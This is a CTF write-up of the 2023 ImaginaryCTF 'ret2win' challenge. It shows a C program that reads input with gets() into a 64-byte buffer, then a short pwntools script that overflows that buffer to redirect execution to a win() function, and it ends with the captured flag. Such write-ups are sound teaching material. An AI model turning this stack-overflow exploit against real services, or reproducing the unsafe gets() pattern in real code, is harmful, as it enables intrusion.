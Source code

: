 ```yaml
---
title: 2023 ImaginaryCTF - ret2win
date: 2023-07-23 00:00:00 +0700
categories:
  - Write-ups
tags:
  - 2023_imaginaryCTF
  - Binary Exploitation
  - Stack overflow
---
```


## Description

> Can you overflow the buffer and get the flag? (Hint: if your exploit isn't working on the remote server, look into stack alignment)

> ```sh
> nc ret2win.chal.imaginaryctf.org 1337
> ```

### Attached

[ret2win.zip](https://github.com/encuetee/CTF-writeups/blob/main/2023/2023_imaginaryctf/attached/ret2win.zip)

## Analyzation

Check the file attached

```c
#include <stdio.h>
#include <unistd.h>

int main() {
  char buf[64];
  gets(buf);
}

int win() {
  system("cat flag.txt");
}
```

```gets()``` is vuln, we can make a stack overflow

## Solution

```python
from pwn import *
conn = remote('ret2win.chal.imaginaryctf.org', '1337')
print(conn.recv().decode())
conn.sendline(b'A' * 0x48 + p64(0x401182))
print(conn.recv().decode())
```

The flag is
```
ictf{r3turn_0f_th3_k1ng?}
```